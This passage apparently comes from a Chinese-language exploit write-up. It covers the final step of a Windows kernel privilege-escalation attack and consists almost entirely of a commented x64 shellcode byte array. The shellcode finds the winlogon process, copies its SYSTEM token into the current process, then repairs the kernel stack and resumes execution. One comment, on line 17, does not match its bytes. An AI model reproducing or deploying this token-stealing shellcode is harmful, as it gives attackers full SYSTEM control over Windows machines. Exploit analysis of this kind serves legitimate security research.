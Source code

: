 ```
```

第六步，最后执行用户模式ShellCode，这里就简单了，攻击代码中的ShellCode是一个简单的替换本进程token为winlogon的System Token的代码：

```
01  char sc[] = {
02      '\x4D', '\x8B', '\xBB', '\x68', '\x01', '\x00', '\x00',                                  // mov r15, [r11+0x168], save return address of kernel stack
03      '\x41', '\x51',                                                                          // push r9 save regs
04      '\x41', '\x52',                                                                          // push r10
05      '\x65', '\x4C', '\x8B', '\x0C', '\x25', '\x88', '\x01', '\x00', '\x00',                  // mov r9, gs:[0x188], get _ETHREAD from KPCR (PRCB @ 0x180 from KPCR, _ETHREAD @ 0x8 from PRCB)
06      '\x4D', '\x8B', '\x89', '\xB8', '\x00', '\x00', '\x00',                                  // mov r9, [r9+0xb8], get _EPROCESS from _ETHREAD
07      '\x4D', '\x89', '\xCA',                                                                  // mov r10, r9 save current eprocess
08      '\x4D', '\x8B', '\x89', '\x40', '\x02', '\x00', '\x00',                                  // mov r9, [r9+0x240] $a, get blink
09      '\x49', '\x81', '\xE9', '\x38', '\x02', '\x00', '\x00',                                  // sub r9, 0x238 => _KPROCESS
10      '\x41', '\x81', '\xB9', '\x38', '\x04', '\x00', '\x00', '\x77', '\x69', '\x6E', '\x6C',  // cmp [r9+0x438], 0x6c6e6977 does ImageName begin with 'winl' (winlogon)
11      '\x75', '\xe5',                                                                          // jnz $a no? then keep searching!
12      '\x4D', '\x8B', '\xA1', '\xE0', '\x02', '\x00', '\x00',                                  // mov r12, [r9+0x2e0] get pid
13      '\x48', '\xC7', '\xC0', '\x00', '\x10', '\x00', '\x42',                                  // mov rax, 0x42001000
14      '\x4C', '\x89', '\x20',                                                                  // mov [rax], r12 save pid for use later
15      '\x4D', '\x8B', '\x89', '\x48', '\x03', '\x00', '\x00',                                  // mov r9, [r9+0x348] get token
16                 '\x49', '\x83', '\xE1', '\xF0',                                                                                                                                         // and r9, 0xfffffffffffffff0 get SYSTEM token's address
17                 '\x49', '\x83', '\x41', '\xD0', '\x0A',                                                                                                                  // add [r9-0x30], 0x10 increment SYSTEM token's reference count by 0x10
18      '\x4D', '\x89', '\x8A', '\x48', '\x03', '\x00', '\x00',                                  // mov [r10+0x348], r9 replace our token with system token
19      '\x41', '\x5A',                                                                          // pop r10 restore regs
20      '\x41', '\x59',                                                                          // pop r9
21      '\x41', '\x53',                                                                          // push r11, pointer near to original stack
22      '\x5C',                                                                                  // pop rsp
23      '\x48', '\x81', '\xC4', '\x68', '\x01', '\x00', '\x00',                                  // add rsp, 0x168, restore original kernel rsp
24      '\x4C', '\x89', '\x3C', '\x24',                                                          // mov [rsp], r15, restore original return address
25      '\xFF', '\x24', '\x25', '\x70', '\x50', '\x00', '\x42',                                  // jmp [0x42005070], continue on to delete the object CHwndTargetProp::Delete(void)
26      0
27  };

```
